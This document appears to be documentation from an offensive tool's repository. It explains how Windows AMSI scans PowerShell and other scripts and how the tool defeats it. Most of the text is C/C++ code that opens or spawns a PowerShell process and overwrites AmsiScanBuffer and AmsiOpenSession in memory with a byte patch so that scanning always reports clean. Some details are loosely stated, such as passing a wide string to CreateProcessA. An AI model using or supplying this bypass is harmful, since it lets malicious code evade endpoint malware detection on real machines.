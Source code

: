 **AMSI** is an interface that allows scanning of fileless malware (Powershell, Python and other).
Under the hood, it has two methods:
- `AmsiScanBuffer`
- `AmsiScanString`

Both of them will scan a buffer and return true if it contains some malicious string. An easy test can be to execute `"AmsiScanBuffer"` in powershell:

![](../../Imgs/amsi-scan-test.png)

Every time we run a powershell window, AMSI will automatically load:

![](../../Imgs/amsi-process.png)

In theory, in order to bypass this, we should get the addresses of those 2 AMSI scanning functions, and overwrite them to return `false` everytime.
# Bypass
We will use [RemotePatcher](https://github.com/Hagrid29/RemotePatcher) as an example.
1. We will get the process HANDLE:
```
hProc = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    (DWORD)atoi(argv[i+1])
);
```
2. We will get the AMSI address:
```
void* amsiAddr = GetProcAddress(LoadLibraryA("amsi.dll"), "AmsiScanBuffer");
```
3. Define the new `AmsiScanBuffer` definition (this is only a bypass to break the function):
```
char amsiPatch[] = { 0x31, 0xC0, 0x05, 0x4E, 0xFE, 0xFD, 0x7D, 0x05, 0x09, 0x02, 0x09, 0x02, 0xC3 };
```
4. We will use functions from NTDLL:
- `NtProtectVirtualMemory` - change the page protection
- `NtWriteVirtualMemory` - write to memory

This is done because normal Windows API functions will fail to operate on another process.
And we will use them to patch AMSI:
```
DWORD lpflOldProtect = 0;
unsigned __int64 memPage = 0x1000;
void* amsiAddr_bk = amsiAddr;

NtProtectVirtualMemory(hProc, (PVOID*)&amsiAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
NtWriteVirtualMemory(hProc, (LPVOID)amsiAddr, (PVOID)amsiPatch, sizeof(amsiPatch), (SIZE_T*)nullptr);
NtProtectVirtualMemory(hProc, (PVOID*)&amsiAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
```

If we want to create a process instead of opening it:
```
LPSTARTUPINFOA si = new STARTUPINFOA();
LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
CreateProcessA(
    NULL,
    L"powershell.exe", // the actual process
    NULL,
    NULL,
    TRUE,
    0,
    NULL,
    NULL,
    si,
    pi
);
hProc = pi->hProcess;
```
# Our Implementation
AMSI bypass implementation is done in `evasion` class. It will create a new process, open it after creation, then make the memory patching for the two functions:
- `AmsiScanBuffer`
- `AmsiOpenSession`

Interesting enough, between the process creation and process opening, we have to wait for one second in order to get the handle with the right permissions:
```
if (!success) {
    std::cout << "[x] CreateProcess failed." << std::endl;
    return NULL;
}

Sleep(1000);

hProc = OpenProcess(
    PROCESS_VM_OPERATION | PROCESS_VM_WRITE,
    FALSE,
    pi->dwProcessId
);
```
